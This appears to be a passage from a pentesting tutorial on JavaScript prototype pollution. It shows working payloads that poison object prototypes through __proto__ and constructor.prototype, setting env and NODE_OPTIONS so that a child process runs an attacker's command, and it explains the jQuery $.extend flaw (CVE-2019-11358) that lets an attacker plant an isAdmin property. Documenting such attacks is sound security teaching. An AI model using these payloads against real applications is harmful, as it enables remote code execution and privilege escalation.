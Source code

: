 You can poison all the objects `env` property abusing `__proto__`:

```javascript
b.__proto__.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/hackermate').toString())//"}
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
let proc = fork('VersionCheck.js', [], {
    stdio: ['ignore', 'pipe', 'pipe', 'ipc']
});
```

Or all the objects  abusing `prototype`from a dictionary `constructor`:

```javascript
b = {"name": "Cat"}
b.constructor.prototype.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/hacktricks').toString())//"}
b.constructor.prototype.NODE_OPTIONS = "--require /proc/self/environ"
let proc = fork('VersionCheck.js', [], {
    stdio: ['ignore', 'pipe', 'pipe', 'ipc']
});
```

Executing any of the **last 2 chunks of code** (and creating some `VersionCheck.js` file) the file `/tmp/hacktricks` is going to be created.

Going back to the initial example if you substitute the `USERINPUT` with the following line arbitrary command execution will be achieved:

```javascript
{"name":"Cat","constructor":{"prototype":{"env":{ "EVIL":"console.log(require('child_process').execSync('touch /tmp/hacktricks').toString())//"},"NODE_OPTIONS":"--require /proc/self/environ"}}}
```

### CVE-2019–11358: Prototype pollution attack through jQuery $ .extend

$ .extend, if handled incorrectly, can change the properties of the object `prototype`(the template of the objects in the app). This attribute will then appear on all objects. Note that only the “deep” version (ie g) of $ .extened is affected.

Programmers often use this function to duplicate an object or fill in new properties from a default object. For example:

We can imagine `myObject`is an input field from the user and is serialized into the DB)

In this code, we often think, when running will assign the attribute `isAdmin`into the newly created object. But essentially, it is assigned directly to `{}` and then `{}.isAdmin` will be `true`. If after this code, we perform the following check:

```javascript
If (user.isAdmin === true) {
    // do something for admin
}
```

If the user has not yet existed ( `undefined`), the property`isAdmin`will be searched in its parent object, which is the Object added `isAdmin` with the value `true` above.
